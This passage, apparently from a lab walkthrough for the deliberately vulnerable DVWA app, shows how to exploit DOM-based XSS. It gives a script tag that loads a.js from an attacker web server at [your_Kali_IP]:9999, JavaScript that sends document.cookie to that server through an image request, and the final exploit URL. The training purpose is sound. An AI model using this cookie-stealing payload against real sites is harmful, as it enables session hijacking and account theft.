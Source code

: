 <img src="https://github.com/mrudy/dvwa-guide-2019/blob/master/low/screenshots/xssdwebserver.png" width="500">

We'll need this for a very important reason - we can log every single request made to the server. This holds true regardless of the validity of the URL. If we can find a way to extract information by building a URL with the info and requesting it from our web server, we should find the stolen information in our server logs. Let's illustrate how this will work below.

I personally like to build a malicious URL that points to an existing Javascript file on my webserver. That valid Javascript file will actually hold my payload (in this case, an invalid URL request built with the stolen cookie info). I like this approach since it allows me to arbitrarily modify the payload with having to change the exploit itself. Plus, if we name the file something small, like "a.js", we can avoid many content length restrictions.

<h4><b>Building The Exploit</b></h4>

We won't need to spend much time on this one. All we need to do is specify a source file (which we'll call <code>a.js</code>) in the XSS exploit. And to stay stealthy, we won't cause a visible <code>alert</code> anymore. Here's what we get:

<code>&#60;script src="http://</b>[your_Kali_IP]<b>:9999/a.js"&#62;&#60;/script&#62;</code>

When this script gets executed, it will try to pull the "a.js" file from your Python web server root, then will execute any code in that file.

<h4><b>Building the Payload</b></h4>

As I said above, we need to find a way to take the stolen cookie, build a URL with that information, then request it from our web server. There are a couple of ways to do so, but I use the following code:

<code>function getimg() {</code>
<br>
  <code>var img = document.createElement('img');</code>
  <br>
  <code>img.src = 'http://[your_Kali_IP]:9999/' + document.cookie;</code>
  <br>
  <code>document.body.appendChild(img);</code>
  <br>
<code>}</code>
<br><br>
<code>getimg();</code>

First, we define the function <code>getImg()</code>. The first line of the function defines a new <code>img</code> web page element and stores that in the variable <code><b>img</b></code>. We specify the source of this new element as a fake web page (with a name of [whatever the user's cookie is]) and states that the page is hosted on our temporary web server. It then puts the final <code>img</code> element at the bottom of the web page. Finally, we execute the function.

Let's save this file as <code>a.js</code> and place it in our web server root.

<h4><b>Running the Payload</b></h4>

Now let's put it all together. Here's our final exploit.

<b>http&#58;//dvwa/dvwa/vulnerabilities/xss_d/?default=&#60;script src="http://</b>[your_Kali_IP]<b>:9999/a.js"&#62;&#60;/script&#62;</b>
